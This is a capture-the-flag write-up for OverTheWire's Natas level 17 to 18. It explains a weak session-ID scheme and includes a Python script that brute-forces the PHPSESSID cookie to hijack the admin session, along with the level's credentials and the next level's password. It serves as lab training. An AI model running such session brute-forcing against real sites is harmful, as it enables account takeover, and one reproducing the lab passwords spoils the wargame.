 # Level 17 → Level 18

## Details
Username: `natas18`<br />
Password: `8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq`<br />
URL:      http://natas18.natas.labs.overthewire.org

## Solution
![](0.png)

![](1.png)

![](2.png)

So, let's see what happens using the `debug` parameter to a GET HTTP request. (I didn't take a picture of the ability of this parameter, it appears in almost every challenge. The goal is to see what happens inside through printing)

![](3.png)

![](4.png)

From these prints it can be concluded that there was no `"admin"` in `$_SESSION`. But how can I insert `"admin"` into the `$_SESSION` details? After all, it is saved on the server. And unlike a `$_COOKIE`, I have no control over it... Not clear now. We will continue to the `print_creadentials()` function:

![](5.png)

That is, the value of the key `"admin"` in `$_SESSION` needs to be 1, and we have no control over that. But there is another interesting thing here...

![](6.png)

The creation of sessions is limited! This means that one of the sessions may be the admin's. We have control over the current session number using `PHPSESSID` in the `$_COOKIE`:

![](7.png)

The `createID()` function is responsible for the randomness and range of the session we will receive from the server.

![](8.png)

So, we will now build a Python program that will try to log-in by brute force on the value of the `PHPSESSID` key in the cookie:

```python
from requests import get
from requests.auth import HTTPBasicAuth

# Current level details
natas18_username = "natas18"
natas18_password = "8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq"

# GET HTTP details
URL = "http://natas18.natas.labs.overthewire.org/?username=admin&password=admin"
AUTH = HTTPBasicAuth(natas18_username, natas18_password)
COOKIES = {'PHPSESSID': None}

res = None
for i in range(1, 640 + 1):
    COOKIES['PHPSESSID'] = str(i)
    res = get(url=URL, auth=AUTH, cookies=COOKIES)
    if "Password" in res.text:
        print(f"admin PHPSESSID value is: {i}")
        break
    else:
        print(f"admin PHPSESSID value is NOT: {i}")

print(res.text)
```

Results:
![](9.png)

## Password for the next level:
```
8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s
```
